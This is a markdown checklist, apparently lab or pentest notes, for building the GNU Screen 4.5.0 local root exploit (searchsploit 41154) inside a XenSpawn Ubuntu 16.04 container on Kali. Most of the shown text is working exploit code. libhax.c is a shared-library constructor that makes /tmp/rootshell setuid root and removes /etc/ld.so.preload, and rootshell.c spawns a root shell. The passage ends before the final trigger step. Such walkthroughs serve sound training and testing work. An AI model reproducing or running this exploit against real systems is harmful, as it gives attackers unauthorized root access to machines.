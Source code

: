 - [ ] Download exploit on your Kali Machine
```
searcsploit -x 41154
```
- This is for reference, we will do it manually

- [ ] Clone the XenSpawn repo locally on your Kali Machine
```
git clone https://github.com/X0RW3LL/XenSpawn.git
cd XenSpawn/
```
- XenSpawn is used to build an Ubuntu 16.04 LTS (Xenial Xerus) system

- [ ] Make the script executable and run script as root on your Kali Machine
```
chmod +x spawn.sh
sudo ./spawn.sh testmachine1
```

- [ ] Start the newly spawned container on your Kali Machine
```
sudo systemd-nspawn -M testmachine1
```

- [ ] Create `libhax.c` in the container on your Kali Machine
```
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

- [ ] Compile `libhax.c` to `libhax.so` in the container on your Kali Machine
```
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
```

- [ ] Create `rootshell.c` in the container on your Kali Machine
```
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```
